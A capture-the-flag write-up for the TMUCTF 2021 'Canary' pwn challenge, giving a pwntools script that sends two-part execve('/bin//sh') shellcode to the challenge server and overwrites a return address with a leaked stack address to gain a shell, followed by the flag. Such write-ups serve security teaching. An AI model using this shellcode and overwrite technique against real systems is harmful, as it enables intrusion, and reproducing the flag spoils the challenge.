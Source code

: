 # Challenge Description
<p align="center">
  <img src="Challenge.png">
</p>
<br>

# Writeup
This is a shellcode challenge. We have to insert a two-part shellcode and finally overwrite the address of the beginning of the shellcode. Here is the script (also available in [solve.py](https://github.com/TMUCTF/TMUCTF-2021/blob/main/Pwn/Canary/Writeup%20Files/solve.py)):    
```python
from pwn import *

context.arch = "amd64"

r = remote("194.5.207.113", 7030)

sh1 = b""
sh1 += asm("mov rbx, 0x68732f6e69622f2f")
sh1 += asm("jmp $-0x25")

sh2 = b""
sh2 += asm("xor rsi, rsi")
sh2 += asm("xor rdx, rdx")
sh2 += asm("mov al, 0x3b")
sh2 += asm("push rdx")
sh2 += asm("push rbx")
sh2 += asm("mov rdi, rsp")
sh2 += asm("syscall")

r.recvuntil(b":")
r.sendline(sh1)

r.recvuntil(b":")
r.sendline(sh2)

r.recvuntil(b"address: ")

n = r.recvuntil(b"\n")
print(n)
leak = int(n, 16)
log.info("leak : 0x%x" % leak)

r.recvuntil(b": ")

r.sendline(b"a" * 20 + p64(leak + 12))
r.interactive()
```   
The flag:   
```
TMUCTF{3x3cu74bl3_574ck_15_v3ry_d4n63r0u5}
```  
